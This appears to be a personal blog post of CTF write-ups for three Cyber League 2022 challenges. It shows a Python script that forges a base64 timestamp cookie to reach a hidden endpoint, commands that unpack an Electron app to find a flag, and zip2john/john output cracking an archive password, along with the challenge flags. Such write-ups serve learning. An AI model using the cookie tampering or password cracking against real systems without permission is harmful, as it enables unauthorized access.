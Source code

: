 ```yaml
---
layout: post
title: Cyber League CTF 2022 - Writeups 🚩
categories:
- CTF
- Web-exploitation
tags:
- CTF
- Web-exploitation
- Forensics
- Cyber-League
date: 2022-05-02 10:16 +0800
---
```


> Didn't really have much time to tackle a lot of the challenges with this CTF and only managed to pwn 3 of them. A big shoutout to my team mates Mocha and Dante for a lot of initial enumerations! I just mainly followed their leads 😅

## Simulated bomb drill

This is the first challenge for the web category in cyber league's CTF. A web endpoint is given for us to start enumerating. When you first hit the main page you are issued a base64 encoded cookie that contains the time in the following format. And at the same time an imaginary bomb timer countdown starts.

![cookie](https://bn1304files.storage.live.com/y4mSu5_wHVLBsroBYQUT9z97CIOX7BLmmwLCzSZhe_sArd5JxbUMIiMDl2K8Q3IXyFsXcjcSbzcholSUdVS-27Ley7PHhZ4KOi6DakV7SyUH-VEbfN6-vyKfSb_EzWxYAKbV8wdjinV1r2p6gDtPw7ewWrHjwmZR2V_DXI2cT-YN0OwDXizBEpOAHs1IoZyYsN2?width=2872&height=936&cropmode=none)

```txt
2022-05-01 12:41:35.329922
```

By the time we visit the `/defuse` endpoint, it would be too late and the bomb would have been blown. The bomb needs to be defused with 0 microseconds passed. So it is physically impossible to do this by hand. The algorithm to get the flag endpoint is as below.

1. Decode the base64 time from cookie
2. Measure the time elasped from the first request
3. Minus off the time elasped from the cookie time
4. Encode the new time into the cookie and send the request

We can code the above steps as below in python.

```python
import requests
import base64

s = requests.Session()

res = s.get('http://13.213.72.54:5003/')

# Get time elapsed in microseconds
time_elapsed = res.elapsed
time_elapsed = time_elapsed.total_seconds()
print(res.elapsed)
# 0:00:00.019976


time_to_decode = s.cookies.get_dict()['princesspeach']
decoded_datetime = base64.b64decode(time_to_decode).decode('utf-8')
# '2022-05-01 12:41:35.329922'
decoded_time = decoded_datetime.split('.')
# ['2022-05-01 12:41:35', '308641']
decoded_microseconds = decoded_datetime.split('.')[1]
# '329922'
decoded_microseconds_in_seconds = int(decoded_microseconds)/1000000
# 0.329922

new_time = decoded_microseconds_in_seconds - time_elapsed
new_time_in_microseconds = int(new_time * 1000000)
# 308641

decoded_time[1] = str(new_time_in_microseconds)

to_encode = ''.join(decoded_time)
# '2022-05-01 12:41:35308641'
encoded_time = base64.b64encode(bytes(to_encode, 'utf-8'))
# b'MjAyMi0wNS0wMSAxMjo0MTozNTMwODY0MQ=='

s.cookies['princesspeach'] = encoded_time
res = s.get('http://13.213.72.54:5003/defuse')
print(res.content)

""" >>> print(res.content)
b'<!DOCTYPE html>\n<html>\n<head>\n <title></title>\n <meta charset="utf-8" />\n</head><body>\n<div class="bd-example" align="middle">\n\n<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />\n\n</div>\n</body>\n</html>' """
```

We managed the get the flag endpoint like below.

```html
<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />
```

Visit the endpoint and you will be able to get the flag.

![flag](https://bn1304files.storage.live.com/y4mZLD6Ua4apnvDZjqDKWnzRFYFCsqkIm-c1GpA0_AMbdm8vp3qwR27yEkIssKJ7iVkcQPPeGryziw-4e9dC8ijsw2-9RCFGbeAh2HgFtWampNx94gZwH8shXi-siMMX_zED4XYBtEAK_3YmXvxVFxWW57iEateBhtfOiB2jNQvlDfcHdMH56ycnRwfyLyml9sL?width=533&height=496&cropmode=none)

## Write farewell letters

This challenge is the misc category of the CTF. 3 types of installation files are given with flag hidden.

The application is doing nothing much but hiding and showing the message as below.

![yoda](https://bn1304files.storage.live.com/y4mZ-4GT0gAj1OIaP2vgKopCFYLmbTMW8CMGiceqQjOIwTQL0jeezJSFWnsU8vNcWb2IA1NLW1WUZeqImILtFu6mtkrruZJ4DtSDBnp1koFd2k53r1e21PRsADdcbgQcWy8qldFQYQxq27_IYZb1rMjxFepvAyrMrl09F1yJoxynd_FY1QcFtynnFrzfwDQdO1k?width=1134&height=1344&cropmode=none)

I had my suspicioun that this could be an electron app. To decompile it we can use npm's asar to extract the source code. Below is the capture of how i extracted out the electron source code.

```bash
➜  cyleague cd peekaboo.app 
➜  peekaboo.app cd Contents 
➜  Contents cd Resources 
➜  Resources ls
am.lproj      de.lproj      fi.lproj      id.lproj      mr.lproj      ro.lproj      te.lproj
app.asar      el.lproj      fil.lproj     it.lproj      ms.lproj      ru.lproj      th.lproj
ar.lproj      en.lproj      fr.lproj      ja.lproj      nb.lproj      sk.lproj      tr.lproj
bg.lproj      en_GB.lproj   gu.lproj      kn.lproj      nl.lproj      sl.lproj      uk.lproj
bn.lproj      es.lproj      he.lproj      ko.lproj      peekaboo.icns sr.lproj      vi.lproj
ca.lproj      es_419.lproj  hi.lproj      lt.lproj      pl.lproj      sv.lproj      zh_CN.lproj
cs.lproj      et.lproj      hr.lproj      lv.lproj      pt_BR.lproj   sw.lproj      zh_TW.lproj
da.lproj      fa.lproj      hu.lproj      ml.lproj      pt_PT.lproj   ta.lproj
➜  Resources mkdir decompile-electron
➜  Resources asar extract app.asar decompile-electron 
➜  Resources cd decompile-electron 
➜  decompile-electron code .
```

After decompiling, we open the source code in electron to analyse. From root folder navigate to js folder to index.js as below.

```In js > index.js```

```javascript
var visibilitySetting = 'hidden'

function load() {
    document.getElementById('showButton').innerHTML = 'show'
}

function showVersions() {
    if (visibilitySetting === 'visible') {
        visibilitySetting = 'hidden'
        document.getElementById('versions').style.visibility = 'hidden'
        document.getElementById('showButton').innerHTML = 'show'
    }
    else {
        visibilitySetting = 'visible'
        document.getElementById('versions').style.visibility =' visible'
        document.getElementById('showButton').innerHTML = 'hide'
    }
}

function shinyKnob() {
    console.log('CYBERLEAGUE{7h3_cu73n355_15_5720n9_w17h_7h15_0n3}')
}
```

## Understand space politics

This is a forensics challenge where challengers are given a `.7z` file with flag text underneath. The challenge is straightfoward to crack the zip file password to get the flag. Below is the capture of using zip2john to crack the zip file.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ zip2john hello_there.zip > ziphashes
ver 2.0 hello_there.zip/hello_there.txt PKZIP Encr: cmplen=41, decmplen=29, crc=87D14E54 ts=A8AF cs=87d1 type=0
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat ziphashes 
hello_there.zip/hello_there.txt:$pkzip$1*1*2*0*29*1d*87d14e54*0*2d*0*29*87d1*8facba0e3e10e650ad9dc1fc89e000dfcff60fe4858a519eb33e8f1f9380a9633f39729fb0e101c9eb*$/pkzip$:hello_there.txt:hello_there.zip::hello_there.zip
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ john ziphashes 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
2hot4u           (hello_there.zip/hello_there.txt)     
1g 0:00:00:02 DONE 3/3 (2022-05-01 09:13) 0.3521g/s 2067Kp/s 2067Kc/s 2067KC/s cjjlip..2hul83
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password is `2hot4u` to extract out the flag.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ unzip hello_there.zip 
Archive:  hello_there.zip
[hello_there.zip] hello_there.txt password: 
 extracting: hello_there.txt         
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat hello_there.txt 
CYBERLEAGUE{Y0U_Fo|_|nD_3e!}
```
